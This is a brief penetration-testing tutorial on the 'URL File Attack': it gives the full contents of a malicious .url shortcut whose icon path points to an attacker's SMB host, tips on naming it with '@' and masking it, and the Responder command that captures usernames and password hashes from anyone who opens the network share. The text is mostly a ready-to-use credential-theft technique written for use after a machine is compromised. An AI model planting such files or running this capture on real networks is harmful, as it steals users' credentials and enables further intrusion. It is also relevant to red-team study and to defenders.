 # URL File Attacks

URL File Attack is an attack to use on a system once we have a compromised machine. 

The requirements for this attack are to have a compromised machine and user account. The account you have compromised has to have access to an open network drive. You place a file in the network folder with the below syntax and let the file do the work.

Step 1: URL File

```jsx
[Internet Shortcut]
URL=doenstmatter
WorkingDirectory=doesntmatter
IconFile=\\IPofKaliMachine\%USERNAME%.icon
IconIndex=1
```

Now that the file is made we need to place this file on the shared drive.

Under Working Directory we can actually place a URL such as [google.com](http://google.com) to mask the attack even more.

Step 2: Save the File to network share

Save the file with an @ Sign at the beginning so it appears at the top of the directory. 

Example: “@filename.url”

Step 3: Have responder running

```jsx
responder -I etho0 -v
```

Step 4: Results

All the users have to do is simply click on the file share, not even execute the file, and on responder you will see hashes and usernames.